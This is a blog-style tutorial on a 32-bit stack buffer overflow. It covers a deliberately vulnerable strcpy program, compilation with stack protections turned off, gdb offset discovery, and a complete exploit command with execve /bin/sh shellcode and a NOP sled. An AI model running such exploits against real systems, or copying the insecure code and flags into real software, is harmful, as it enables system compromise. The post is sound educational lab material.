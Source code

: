 ```yaml
---
title: "Buffer Overflow 101"
description: Here is a demo of all shortcodes available in Hugo.
date: 2025-03-26
tags: ["buffer overflow", "exploit development", "security", "vulnerability"]
categories: ["Cybersecurity", "Exploitation"]
summary: This post covers the basics of creating and exploiting a buffer overflow vulnerability.
toc: true
---
```


<script src="https://cdn.jsdelivr.net/npm/medium-zoom@1.0.6/dist/medium-zoom.min.js"></script>
<script>
  document.addEventListener('DOMContentLoaded', function () {
    mediumZoom('article img'); // Targets all images inside articles
  });
</script>

<style>
.toc {
  font-size: 0.9em; /* Reduce the font size */
  width: auto; /* Keep the width dynamic */
  padding: 8px; /* Add some padding for spacing */
  position: relative; /* Ensure it stays in its original position */
  margin-left: 0; /* Keep it aligned to the left */
}

.toc a {
  font-size: 0.85em; /* Reduce the font size of links */
  line-height: 1.4; /* Adjust line height for better readability */
}
</style>

## Background
- A bit of background on buffer overflows: Buffer overflows occur when a program attempts to write more data into a buffer than it has allocated for it. This can lead to overwriting adjacent memory locations, potentially resulting in code execution or other security vulnerabilities.
- Recently, in one of my lectures, I was tasked with simulating a buffer overflow vulnerability, and I would like to share my approach to simulating this vulnerability.

## C Program used for the Simulation

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    return 0;
}
```

- The above binary is vulnerable because of the use of `strcpy`, which fails to check for buffer overflow. Since `strcpy` copies data without ensuring the destination buffer has enough space, an attacker can exploit this to overwrite adjacent memory. PS: for such applications always use `strncpy`.


## Compilation
```c
gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 program.c -o program
```
- <u>_**mpreferred-stack-boundary**_</u>: This is particularly relevant for older or specific ABI requirements, as many modern systems use a higher boundary. Basically in my case, I had to use this to ensure that the stack is aligned to 4 bytes as im compiling to a 32 bit binary.
- <u>_**fno-stack-protector**_:</u> Disables stack protection also known as canaries allowing buffer overflow to occur.
- <u>_**execstack**_:</u> This flag marks the stack as executable, allowing you to place and run code from the stack.
- <u>_**no-pie**_:</u> Disabling PIE (Position Independent Executable) means the binary loads at a fixed address, which simplifies things for certain testing scenarios (like predictable addresses for shellcode).
- <u>_**m32**_</u>: This flag compiles your code as a 32-bit binary.

## Reconnaissance
![Checksec Image](/images/Screenshot_2025-03-26_10-47-14.png)

- <u>_**PIE**_</u>: No PIE, meaning that the binary is not built as a Position Independent Executable, which results in a fixed memory layout each time the program runs.
- <u>_**Stack**_</u>: No Canary found meaning we can easily perform buffer overflow as there are no protections also it is executable allowing for shellcode to be executed.

## Performing the attack

1. <u>**Basic Exploration**</u>  
   First, I'll disassemble the `main` function and fill the buffer to find out where the buffer's address is stored in the stack.

    ![Buffer Address](/images/Screenshot_2025-03-20_08-04-13.png)

    Now from the above we will first try to put a breakpoint at something after the **puts@plt** which is at `0x8049050` so that we can see how the buffer fills upon filling with input.

2. <u>**Filling the Buffer**</u>

    ![Filling Buffer](/images/Screenshot_2025-03-21_00-37-48.png)

    Command: `r $(python2 -c 'print "A"*256')`

    In the above image upon running this we can fill the buffer which can accommodate `256` bytes of characters using python2. By doing so we can find out whats the starting address of the buffer which will be used to craft the exploit.

    Running the below command gives us a better clarity,

    Command: `x/256x $esp`

    ![Inspecting Buffer](/images/Screenshot_2025-03-21_00-38-01.png)

    From this image we can see that the buffer starts filling from `0xffffcfa4` with ‘A’ (0x41)

3. <u>**Offset Calculation**</u>

    Now lets find till where we must give input so that we can overwrite the EIP (current instruction register) . From the below we see that we overwrote the EIP with `‘qaac’`.

    Command: `cyclic 300`

    ![Cyclic 300](/images/Screenshot_2025-03-21_00-39-34.png)

    Now finding the offset using the below command,

    Command: `cyclic -l qaac`

    ![Cyclic finder](/images/Screenshot_2025-03-21_00-39-51.png)

    Thus we found that the offset needed is `264` after which the next 4 bytes given will overwrite the EIP with that value.

    Command: `r $(python2 -c 'print "A"*264 + "BBBB"')`

    We can confirm this with the below image where after `264`, I have given `‘BBBB’` as input which has been overwritten onto the EIP.

    ![EIP overwrite](/images/Screenshot_2025-03-21_00-43-47.png)

4. <u>**Writing the Exploit**</u>

    Now we have the following details:

     **Buffer starting address**: `0xffffcfa4`  
     **Offset**: `264`

    Next, we need malicious code. I’ll be using a shellcode that spawns a shell from the binary, which can be exploited by an attacker to compromise the system.

    **Shellcode used**:
    ```bash
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
    ```

    The above is a 23 byte shell code 

    So now to write the exploit we need to follow the below structure,


    - First we need a **NOP** (NO operation sled) which provides a safe landing zone for the return address. Basically making sure that execution slides down NOPs to reach the shellcode . For this lets take a value of `100` NOPs (experimentally found).
    - Next we put the 23 byte shell code.
    - Next since the offset was 264 we fill the remaining (264 – 23 – 100 = `141`) with padding, so here Ive padded with ‘A’
    - Next we write the address which we want to overwrite on the EIP
    - In this the actual return stack address is `0xffffcfa4`, however we want to point it to an address which is somewhere within the NOP sled so it can slide to the shellcode. Hence from the below image ill take the address `0xffffd0c0` which is filled with /x90 which are NOPs so that it can slide execution into the shellcode.<br><br>
    
    The stack address is located higher in memory, as shown below:

    ![Image with NOP slide](/images/Screenshot_2025-03-21_17-21-21.png)

    Thus, we can craft the exploit as follows:

    ```bash
    ./program $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + b"A"*141 + b"\xc0\xd0\xff\xff")')
    ```

    - The address `0xffffd0c0` has been written in little endian hence `\xc0\xd0\xff\xff`.
    - NOP in hex is `\x90`.<br><br>
    Below is an image which shows the attack being successful and spawing a shell which can be used by the attacker for manipulating the system.<br><br>

    ![Attacked](/images/Screenshot_2025-03-21_17-25-56.png)

    BOOM! We have successfully exploited the buffer overflow vulnerability and spawned a shell.

